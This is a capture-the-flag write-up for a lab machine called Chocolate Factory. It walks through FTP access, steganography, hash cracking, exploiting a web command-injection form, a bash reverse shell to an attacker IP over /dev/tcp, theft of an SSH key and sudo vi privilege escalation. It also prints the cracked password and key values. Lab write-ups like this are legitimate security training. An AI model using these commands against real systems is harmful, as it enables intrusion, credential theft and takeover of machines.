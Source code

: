 # CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />

![image](images/nmap.png)

```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />

![image](images/anonFTP.png)

> we get a jpg file<br />

![image](images/ftp.png)

> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To encode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />

![image](images/charlieHash.png)

Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```

![image](images/john.png)

> We got the charlie's pass - <br />

```
cn7824
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />

![image](images/gobuster.png)

```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />

![image](images/index.png)

And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />

![image](images/home.png)

2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />

![image](images/www.png)

4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />

![image](images/key.png)

```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```

2. What is Charlie's password?<br />

```
cn7824
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />

![image](images/teleport.png)

We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />

![image](images/sudo.png)

We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN](https://gtfobins.github.io/gtfobins/vi/#sudo) for vi-<br />

![image](images/gtfo.png)

`sudo vi -c ':!/bin/sh' /dev/null`<br />


Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />

![image](images/script.png)

Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />

![image](images/complete.png)

5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />
